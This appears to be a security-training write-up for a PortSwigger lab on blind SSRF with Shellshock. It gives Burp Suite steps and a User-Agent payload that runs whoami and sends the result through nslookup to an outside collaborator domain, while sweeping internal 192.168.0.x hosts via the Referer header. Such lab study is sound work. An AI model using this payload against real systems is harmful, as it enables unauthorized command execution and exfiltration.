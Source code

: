 ![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220516013426.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220516013446.png)

### Blind SSRF with Shellshock exploitation
```bash

#### This site uses analytics software which fetches the URL specified in the Referer header when a product page is loaded.

#### To solve the lab, use this functionality to perform a blind SSRF attack against an internal server in the 192.168.0.X range on port 8080. In the blind attack, use a Shellshock payload against the internal server to exfiltrate the name of the OS user. 

Go to BApp store and install "Burp Collaborator Everywhere" if not already installed
Browse the site to at least two various end-points
Go to: Target -> Site map -> Issues
Note the 'Collaborator Pingback' issues
Go to: HTTP history
Find:

GET /product?productId=2 HTTP/1.1

Send to intruder
Change:

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0

To

() { :;}; /usr/bin/nslookup $(whoami).grb7zk1469fm5yaq4vykqnxp2g86wv.oastify.com

Change:

Referer: https://ac5c1fc41fb61481c09d137300240001.web-security-academy.net/

To

Referer: http://192.168.0.§1§:8080

Go to: Payloads
Payload type: Numbers
Payload Options[Numbers]
From: 1
To: 255
Step: 1
Start attack
Go to: Burl Collaborator client
Click "Poll now"

**peter-DaumjH**

Further reading:
https://portswigger.net/research/cracking-the-lens-targeting-https-hidden-attack-surface#remoteclient

```
